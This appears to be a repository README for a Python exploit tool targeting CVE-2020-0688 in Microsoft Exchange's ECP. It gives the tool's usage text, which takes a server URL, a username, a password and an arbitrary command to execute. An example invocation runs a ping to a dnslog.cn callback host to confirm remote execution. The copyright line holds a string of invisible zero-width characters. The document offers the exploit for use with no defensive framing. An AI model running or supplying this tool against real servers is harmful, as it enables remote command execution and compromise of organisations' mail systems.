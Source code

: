 # cve-2020-0688
Usage:
```
usage: cve-2020-0688.py [-h] -s SERVER -u USER -p PASSWORD -c CMD

optional arguments:
  -h, --help            show this help message and exit
  -s SERVER, --server SERVER
                        ECP Server URL Example: http://ip/owa
  -u USER, --user USER  login account Example: domain\user
  -p PASSWORD, --password PASSWORD
                        Password
  -c CMD, --cmd CMD     Command u want to execute
```

example:
```
python cve-2020-0688.py -s https://ip/owa/ -u user -p pass -c "ping test.ph4nxq.dnslog.cn"
```

![](https://blogpics-1251691280.file.myqcloud.com/imgs/20200227105319.png)

`Copyright 2019 Netease, Inc. All rights reserved. ⁠‌​​‌‌‌​‌⁠‌​​‌‌​‌​⁠‌‌​​​‌‌​⁠‌‌​​‌​​‌⁠‌‌​​‌‌​​⁠‌​​‌‌​​‌⁠‌‌​​‌‌‌‌⁠‌‌​​‌‌‌‌⁠‌​​‌‌​‌‌`
